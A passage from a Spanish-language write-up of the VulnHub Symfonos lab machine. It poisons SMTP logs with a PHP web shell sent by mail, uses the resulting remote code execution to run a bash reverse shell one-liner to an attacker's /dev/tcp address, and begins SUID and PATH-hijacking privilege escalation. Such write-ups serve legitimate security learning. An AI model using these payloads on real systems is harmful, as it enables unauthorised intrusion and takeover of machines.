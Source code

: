 Estamos logrando ver los log's del **SMTP** para el usuario **helios**, y como vemos en la **URL** se está interpretando por **PHP**, por lo qué se me ocurre llevar a cabo un **Log Poisoning** enviando un correo con código PHP malicioso a helios.

DATA para el correo enviado:
```bash
<?php system($_GET['cmd']); ?>  
```

De forma qué podremos controlar el comando qué queramos ejecutar desde la URL.

A continuación se muestra una imagen de como se envió el correo con código malicioso PHP.

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110122836.png)

Sí todo ha ido bien, deberíamos ejecutar comando en la URL.


![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110123058.png)

Hemos convertido el **Log Poisoning** en un **RCE**, así que ya podríamos entablarnos una Reverse Shell.

1. Nos ponemos en escucha por el **443**.
2. Ponemos el típico **One Liner** en la URL urlencodeado.
```bash
bash -c "bash -i >%26 /dev/tcp/192.168.x.x/port 0>%261"
```

![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110123554.png)

Y ya estaríamos dentro de la máquina, faltaría darle **Tratamiento a la TTY**, qué si no sabes cómo, te recomiendo [((IR AQUÍ))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegio
____

Estando como el usuario Helios nos interesaría convertirnos en ROOT, empecemos...

Empecé buscando archivos con permisos SUID.

```bash
find / -perm -4000 2>/dev/null
```

Encontrando así un binario con nombre "**statuscheck** y SUID de ROOT".
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110124116.png)

Investigando este binario, al hacerle un string, descubrí qué está haciendo una petición con "curl" pero sólo está llamando la ruta relativa, por lo qué podríamos llevar a cabo un **Path Hijacking.**

```bash
strings /opt/statuscheck 
```
![](/assets/images/vulnhub-writeup-symfonos/Pasted image 20231110124319.png)
